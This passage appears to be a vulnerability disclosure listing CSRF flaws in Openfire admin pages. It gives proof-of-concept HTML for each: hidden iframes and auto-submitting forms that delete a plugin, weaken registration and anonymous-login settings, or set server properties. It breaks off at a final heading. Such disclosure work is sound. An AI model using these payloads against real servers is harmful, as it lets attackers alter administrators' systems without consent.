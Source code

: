 #### *plugin-admin.jsp* is vulerable to a CSRF attack.

The following HTML iframe command allows reproducing the attack against the Openfire *plugin-admin.jsp* page.

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/plugin-admin.jsp" method="get" target="csrf-frame" >
    <input type="text" name="deleteplugin" value="broadcast" >
</form>


<script>document.getElementById("csrf-form").submit()</script>
```

The following HTML iframe command allows reproducing the attack against the Openfire *reg-settings.jsp* page:

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/reg-settings.jsp" method="get" target="csrf-frame" >
    <input type="text" name="inbandEnabled" value="false" >
    <input type="text" name="canChangePassword" value="false" >
    <input type="text" name="anonLogin" value="fasle" >
    <input type="text" name="allowedIPs" value="0.0.0.0" >
    <input type="text" name="allowedAnonymIPs" value="0.0.0.0" >
    <input type="text" name="save" value="Save Settings" >
</form>


<script>document.getElementById("csrf-form").submit()</script>
```

#### *server-properties.jsp* is vulerable to a CSRF attack.

The following HTML iframe command allows reproducing the attack against the Openfire *server-properties.jsp* admin page.

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/server-properties.jsp" method="post" target="csrf-frame" >
    <input type="text" name="propName" value="test" >
    <input type="text" name="propValue" value="test" >
    <input type="text" name="encrypt" value=""false >
    <input type="text" name="save" value="Save Property" >
</form>

<script>document.getElementById("csrf-form").submit()</script>
```

#### *system-email.jsp* is vulerable to a CSRF attack.
